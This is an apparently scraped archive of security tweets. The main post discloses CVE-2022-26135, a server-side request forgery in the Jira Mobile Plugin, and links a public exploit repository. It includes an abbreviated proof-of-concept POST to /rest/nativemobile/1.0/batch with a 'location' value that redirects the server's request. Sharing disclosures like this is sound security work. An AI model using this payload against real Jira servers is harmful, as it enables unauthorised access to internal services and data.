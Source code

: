 * https://www.zerodayinitiative.com/advisories/ZDI-22-973/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1547052402742022146 _at 2022-07-13 02:56:50_**
<blockquote>
CVE-2022-26135 - Full-Read Server Side Request Forgery in Mobile Plugin for Jira Data Center and Server

POST /rest/nativemobile/1.0/batch HTTP/2
....
{"requests":[{"method":"GET","location":"@example.com"}]}

https://t.co/5bk4MchWtY https://t.co/VmH9duVS8I
</blockquote>

* https://github.com/assetnote/jira-mobile-ssrf-exploit?fbclid=IwAR0ggztq5PeEwaHFQbrN66DlDOtKoF-tnXwCGTG9aRmgyqNVwam4Re0aEQ4

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+FXg79Y7aUAE2upR.png" alt="http://pbs.twimg.com/media/FXg79Y7aUAE2upR.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>23</code></td>
</tr></table>

---
